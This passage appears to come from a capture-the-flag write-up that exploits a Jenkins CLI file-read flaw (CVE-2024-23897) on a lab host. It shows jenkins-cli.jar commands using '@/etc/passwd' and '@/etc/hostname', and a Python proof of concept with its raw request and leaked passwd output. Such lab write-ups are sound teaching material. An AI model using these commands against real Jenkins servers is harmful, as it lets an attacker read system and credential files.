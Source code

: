     ERROR: No such command 0xdf. Available commands are above.


Those command run as well:



    oxdf@hacky$ java -jar jenkins-cli.jar -s 'http://10.10.11.10:8080' who-am-i
    Authenticated as: anonymous
    Authorities:
      anonymous



From the advisory, I can try putting in a file reference:

![](/img/image-20240209171545905.png)

It's trying to load `/etc/passwd` as arguments for the help command. The
first line is the command (`root`), and the next is an unexpected
argument. That's partial file read for sure. For one line files, this is
enough (adding an extra arg, in this case "a", makes the output much
shorter):



    oxdf@hacky$ java -jar jenkins-cli.jar -s 'http://10.10.11.10:8080' help '@/etc/hostname' a

    ERROR: Too many arguments: a
    java -jar jenkins-cli.jar help [COMMAND]
    Lists all the available commands or a detailed description of single command.
     COMMAND : Name of the command (default: 0f52c222a4cc)



The hostname is "0f52c222a4cc".

#### Python POCs

There are Python POCs out there on GitHub that will do a similar thing.
They don't really add anything over the JAR file, so I prefer that
method. They do work to make similar output:



    oxdf@hacky$ python CVE-2024-23897/poc.py  http://10.10.11.10:8080/ /etc/passwd
    REQ: b'\x00\x00\x00\x06\x00\x00\x04help\x00\x00\x00\x0e\x00\x00\x0c@/etc/passwd\x00\x00\x00\x05\x02\x00\x03GBK\x00\x00\x00\x07\x01\x00\x05zh_CN\x00\x00\x00\x00\x03'

    RESPONSE: b'\x00\x00\x00\x00\x01\x08\n\x00\x00\x00K\x08ERROR: Too many arguments: daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin\n\x00\x00\x00\x1e\x08java -jar jenkins-cli.jar help\x00\x00\x00\n\x08 [COMMAND]\x00\x00\x00\x01\x08\n\x00\x00\x00N\x08Lists all the available commands or a detailed description of single command.\n\x00\x00\x00J\x08 COMMAND : Name of the command (default: root:x:0:0:root:/root:/bin/bash)\n\x00\x00\x00\x04\x04\x00\x00\x00\x02'
